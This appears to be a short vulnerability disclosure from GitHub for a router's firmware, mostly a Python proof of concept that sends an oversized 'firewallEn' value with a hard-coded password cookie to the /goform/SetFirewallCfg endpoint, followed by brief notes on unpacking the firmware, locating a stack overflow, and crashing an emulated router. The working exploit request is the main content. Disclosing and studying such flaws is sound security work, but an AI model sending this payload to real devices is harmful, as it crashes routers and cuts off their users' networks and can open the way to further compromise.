 POC：
```
from pwn import *
import requests

payload = b'a'*0x100

url = "http://192.168.100.254/goform/SetFirewallCfg"

cookie = {"Cookie":"password=12345"}
data = {"firewallEn": b"\r" + payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```
1. The firmware is unpacked, the file system is separated, and the file is analyzed

2. There is a stack overflow vulnerability function

<img width="415" height="258" alt="image" src="https://github.com/user-attachments/assets/6a376fd9-d98e-44ca-aa14-30eb3a921777" />


3. Firmware emulation simulation attack
POC causes router crashes

<img width="415" height="54" alt="image" src="https://github.com/user-attachments/assets/44900b41-c705-4b3c-ac24-6ca618d1f3f3" />
